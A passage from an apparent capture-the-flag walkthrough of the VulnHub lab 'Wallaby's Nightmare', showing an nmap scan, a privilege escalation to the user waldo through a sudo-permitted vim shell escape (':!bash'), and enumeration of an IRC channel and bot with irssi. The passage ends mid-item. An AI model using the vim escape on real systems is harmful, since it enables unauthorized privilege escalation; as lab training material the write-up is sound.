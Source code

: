 	Chain FORWARD (policy ACCEPT)
	target     prot opt source               destination         

	Chain OUTPUT (policy ACCEPT)
	target     prot opt source               destination         
	www-data@ubuntu:/var/www/html$ 
	```
5.  `TCP/6667 - irc` is no longer filtered
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# nmap $ip -p 6667
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-12 18:42 +08
	Nmap scan report for 192.168.110.39
	Host is up (0.00039s latency).

	PORT     STATE SERVICE
	6667/tcp open  irc
	MAC Address: 08:00:27:80:57:12 (Oracle VirtualBox virtual NIC)

	Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
	```
6. Exploit `vim`, allowing us to privilege escalate to waldo
	``` 
	www-data@ubuntu:/var/www/html$ sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
	:!bash
	```
	![](Pasted%20image%2020220312182557.png)
	
## Wallaby - Via GTFO Bin + Misconfiguration of irc bot
1. Access `TCP/6667 - irc` on Kali w/ `irssi`
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# irssi

	# Connect to Target
	/CONNECT 192.168.110.39

	# List channels
	/LIST

	# Join channel
	/JOIN wallabyschat
	
	# List names, screenshot is based on this command
	/names
	```
	 ![](Pasted%20image%2020220312192026.png)
	- [More irssi commands ](https://www.linode.com/docs/guides/using-irssi-for-internet-relay-chat/)
2. View the details of the users connected to the channel
	``` 
	/WHOIS wallabysbot
	/WHOIS waldo
	```
	![](Pasted%20image%2020220312192654.png)
	- `wallabysbot` is based on [sopel](https://sopel.chat/#:~:text=Sopel%20is%20a%20simple%2C%20easy,you%20reminders%2C%20and%20much%20more.)
	- What is sopel